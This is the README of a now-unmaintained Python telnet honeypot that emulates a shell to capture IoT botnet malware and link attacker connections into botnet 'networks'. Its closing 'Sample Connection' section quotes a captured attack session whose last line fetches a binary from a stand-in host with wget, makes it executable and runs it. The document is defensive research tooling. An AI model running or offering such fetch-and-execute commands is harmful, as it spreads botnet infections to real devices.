 ## Disclaimer

This project neither supported or in development anymore. It is based on python2 which has reached its EOL in 2020 and uses dependencies which are getting harder to install over time. Use at your own risk! 

# Telnet IoT honeypot

'Python telnet honeypot for catching botnet binaries'

This project implements a python telnet server trying to act
as a honeypot for IoT Malware which spreads over horribly
insecure default passwords on telnet servers on the internet.

The honeypot works by emulating a shell enviroment, just like 
cowrie (https://github.com/micheloosterhof/cowrie).
The aim of this project is primarily to automatically analyse
Botnet connections and "map" Botnets by linking diffrent
connections and even Networks together.

## Architecture

The application has a client/server architecture,
with a client (the actual honeypot) accepting telnet connections
and a server which receives information about connections and
does the analysis.

The backend server exposes a HTTP interface which is used
to access to frontend as well as by the clients to push new
Connection information to the backend.

## Automatic analysis

The Backend uses 2 diffrent mechanisms to automatically link
connections:

### Networks

Networks are discovered Botnets. A network is the set of all linked
connections, urls and samples. Urls and samples
are linked when they are used in a connection. Two connections are linked
when both connections are recieved by the same honeypot client
(mutliple clients are supported!) and use the same credentials in a short
period of time (defautl 2 minutes) or come from the same IP address.

### Malware

Multiple networks are identified to use the same type of malware
if the text entered during sessions of the networks aro mostly the
same. This comparison is done using sort of "hash"-function which
basically translates a session (or connection) into a sequence
of words and then maps each word to a single byte so this resulting
sequence of bytes can be easily searched.

# Running in container

```bash
podman run \
	--name honeypot \
	-v ./log:/tmp \
	-p 2323:2323 \
	-p 5000:5000 \
	--rm sainnhe/telnet-iot-honeypot:latest
```

Where `2323` is telnet port, and `5000` is web server port.

If you want to use custom config, copy `config.dist.yaml` to `config.yaml` and edit the content in `config.yaml`, then mount it like this:

```bash
podman run \
	--name honeypot \
	-v ./config.yaml:/root/telnet-iot-honeypot/config.yaml \
	-v ./log:/tmp \
	-p 2323:2323 \
	-p 5000:5000 \
	--rm sainnhe/telnet-iot-honeypot:latest
```

# Running manually

The application has a config file named config.py.
Samples are included for local and client/server deployments.

## Configuration

The backend requires a SQL-database (default sqlite) which is initialized
at first run. Before the first run you should generate a admin account
which is used to generate more users. The admin account can also directly
used by a client to post connections. When more than one honeypots shall be
connected, creating multiple users is recommended.

	bash create_config.sh

Both client and backend will read the files `config.yaml` and `config.dist.yaml`
to read configuration parameters. The `config.dist.yaml` file includes
default values for all but admin user credentials and these parameters
are overwirtten by entries in the `config.yaml` file.

## Running the Server

	python backend.py

## Running the Client

This project contains an own honeypot, however because of the client-server architecture,
other honeypot can be used as well.

### Using the built-in honeypot

	python honeypot.py

The client cannot be started without the server running. To use a diffrent configuration
for the client you can use the `-c` switch like this:

	python honeypot.py -c myconfig.yaml

If you only want to check the honeypot functionality,
you can start the client in interactive mode:

	python honeypot shell

### Using cowrie

I wrote an output plugin for cowrie, which has much more features than the built in honeypot.
If you want to use cowrie instead, checkout my fork which includes the output module here:
https://github.com/Phype/cowrie .

## Opening the frontend

After the server is started, open `http://127.0.0.1/` in your favorite browser.

## Sample Connection

	enable
	shell
	sh
	cat /proc/mounts; /bin/busybox PEGOK
	cd /tmp; (cat .s || cp /bin/echo .s); /bin/busybox PEGOK
	nc; wget; /bin/busybox PEGOK
	(dd bs=52 count=1 if=.s || cat .s)
	/bin/busybox PEGOK
	rm .s; wget http://example.com:4636/.i; chmod +x .i; ./.i; exit

## Images

![Screenshot 1](images/screen1.png)

![Screenshot 2](images/screen2.png)

![Screenshot 3](images/screen3.png)
